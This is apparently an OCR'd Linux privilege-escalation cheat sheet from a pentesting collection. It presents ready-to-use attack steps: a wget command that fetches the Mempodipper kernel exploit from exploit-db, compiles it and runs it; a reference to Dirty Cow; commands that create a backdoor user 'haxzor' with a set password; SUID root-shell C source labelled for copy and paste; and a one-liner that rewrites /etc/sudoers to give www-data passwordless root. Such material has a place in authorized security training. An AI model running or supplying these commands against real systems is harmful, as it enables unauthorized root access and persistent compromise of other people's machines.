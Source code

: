 -   CVE-2012-0056 - Mempodipper - Linux Kernel 2.6.39 < 3.2.2 (Gentoo / Ubuntu x86/x64)  
    [https://git.zx2c4.com/CVE-2012-0056/about/](https://git.zx2c4.com/CVE-2012-0056/about/)  
    Linux CVE 2012-0056  
    
          wget -O exploit.c http://www.exploit-db.com/download/18411 
          gcc -o mempodipper exploit.c  
          ./mempodipper

-   CVE-2016-5195 - Dirty Cow - Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8  
    [https://dirtycow.ninja/](https://dirtycow.ninja/)  
    First existed on 2.6.22 (released in 2007) and was fixed on Oct 18, 2016  

-   Run a command as a user other than root  

          sudo -u haxzor /usr/bin/vim /etc/apache2/sites-available/000-default.conf

-   Add a user or change a password

          /usr/sbin/useradd -p 'openssl passwd -1 thePassword' haxzor  
          echo thePassword | passwd haxzor --stdin

-   Local Privilege Escalation Exploit in Linux

    -   **SUID** (**S**et owner **U**ser **ID** up on execution)  
        Often SUID C binary files are required to spawn a shell as a
        superuser, you can update the UID / GID and shell as required.  
          
        below are some quick copy and paste examples for various
        shells:  
     
              SUID C Shell for /bin/bash  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/bash");  
              }  

              SUID C Shell for /bin/sh  

              int main(void){  
              setresuid(0, 0, 0);  
              system("/bin/sh");  
              }  

              Building the SUID Shell binary  
              gcc -o suid suid.c  
              For 32 bit:  
              gcc -m32 -o suid suid.c

    -   Create and compile an SUID from a limited shell (no file transfer)  
        
              echo "int main(void){\nsetgid(0);\nsetuid(0);\nsystem(\"/bin/sh\");\n}" >privsc.c  
              gcc privsc.c -o privsc

-   Handy command if you can get a root user to run it. Add the www-data user to Root SUDO group with no password requirement:

    `echo 'chmod 777 /etc/sudoers && echo "www-data ALL=NOPASSWD:ALL" >> /etc/sudoers && chmod 440 /etc/sudoers' > /tmp/update`
    